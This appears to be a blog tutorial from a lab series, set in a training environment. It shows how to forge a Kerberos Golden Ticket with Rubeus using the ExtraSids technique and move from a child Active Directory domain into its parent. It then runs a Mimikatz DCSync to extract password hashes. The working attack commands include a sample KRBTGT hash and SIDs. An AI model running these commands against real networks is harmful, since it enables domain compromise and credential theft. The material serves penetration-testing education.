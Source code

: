 ```yaml
---
title: "Active Directory Series - ExtraSids Attack with Rubeus - Episode 4"
datePublished: Wed Mar 27 2024 20:38:48 GMT+0000 (Coordinated Universal Time)
cuid: clua9qgaq000908k1gxxfbgk3
slug: active-directory-series-extrasids-attack-with-rubeus-episode-4

---
```


The ExtraSids Attack is a technique used to gain unauthorized access to a parent domain from a compromised child domain in an Active Directory environment. This attack leverages the trust relationship between the child and parent domains, allowing an attacker to create a forged Golden Ticket with elevated privileges in the parent domain.

## **Prerequisites and Setup**

Before attempting the ExtraSids Attack, ensure that you have the following:

* Access to a compromised machine in the child domain
    
* Rubeus, a tool for manipulating Kerberos tickets
    
* Knowledge of the child domain's KRBTGT account NT hash
    
* SID of the child domain and the target user or group in the parent domain
    

## **Confirming No Access to the Parent Domain Controller**

Before proceeding with the attack, confirm that you do not have access to the parent domain controller's file system.

### **Using PowerShell, attempt to access the C$ share of the parent domain controller:**

```powershell

PS C:\\htb> ls \\\\academy-ea-dc01.inlanefreight.local\\c$
```

### **If access is denied, you will see an error message similar to:**

```powershell

ls : Access is denied
    At line:1 char:1
    + ls \\\\academy-ea-dc01.inlanefreight.local\\c$
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (\\\\academy-ea-dc01.inlanefreight.local\\c$:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

This confirms that you do not have direct access to the parent domain controller.

## **Formulating the Rubeus Command**

To create a Golden Ticket using Rubeus, you will need to provide the following information:

* `/rc4`: The NT hash of the child domain's KRBTGT account
    
* `/domain`: The FQDN of the child domain
    
* `/sid`: The SID of the child domain
    
* `/sids`: The SID of the target user or group in the parent domain (e.g., Enterprise Admins)
    
* `/user`: The username to use for the forged ticket
    

### **Example Rubeus command:**

```powershell

.\\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

## **Creating a Golden Ticket using Rubeus**

1. Run the Rubeus command formulated in step 4. Rubeus will generate a forged Golden Ticket with the specified parameters.
    
2. The output will include information about the generated ticket, such as:
    
    * Ticket Encryption Type
        
    * Ticket Flags
        
    * Start Time, End Time, and Renew Time
        
    * Session Key Type
        
    * Cache Flags
        
    * Base64-encoded ticket (KERB-CRED)
        
3. If the ticket is successfully imported, Rubeus will display the message `[+] Ticket successfully imported!`
    

## **Verifying the Golden Ticket**

1. Use the `klist` command to check if the forged Golden Ticket is present in the Kerberos ticket cache:
    

```powershell

PS C:\\htb> klist
```

1. The output should show the forged ticket with the specified username (e.g., hacker) and the target domain (e.g., LOGISTICS.INLANEFREIGHT.LOCAL).
    
2. Verify that the ticket flags include forwardable, renewable, initial, and pre\_authent.
    

## **Performing a DCSync Attack**

1. With the forged Golden Ticket, you can now perform a DCSync attack against the parent domain to retrieve sensitive information, such as user hashes.
    
2. Use Mimikatz to execute the DCSync attack, targeting a specific user account in the parent domain (e.g., INLANEFREIGHT\\lab\_adm):
    

```powershell

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\\lab_adm /domain:INLANEFREIGHT.LOCAL
```

1. Mimikatz will connect to the parent domain controller and retrieve the specified user's account information, including:
    
    * SAM Username
        
    * Account Type
        
    * User Account Control flags
        
    * Password last change timestamp
        
    * Object Security ID (SID)
        
    * NTLM hash of the user's password
        

## **Troubleshooting and Best Practices**

* Ensure that you have the correct NT hash for the child domain's KRBTGT account.
    
* Double-check the SIDs for the child domain and the target user or group in the parent domain.
    
* If the Golden Ticket is not working as expected, verify that the ticket flags include forwardable, renewable, initial, and pre\_authent.
    
* When performing a DCSync attack against a specific user in the parent domain, make sure to specify the target domain using the `/domain` parameter followed by the FQDN of the parent domain.
    
* Always use caution when executing attacks and ensure that you have proper authorization and legal permission to perform these actions.
    

## **Conclusion and Further Reading**

In this guide, you learned how to perform an ExtraSids Attack using Rubeus to gain unauthorized access to a parent domain from a compromised child domain. By creating a forged Golden Ticket with elevated privileges, you can execute a DCSync attack and retrieve sensitive information from the parent domain.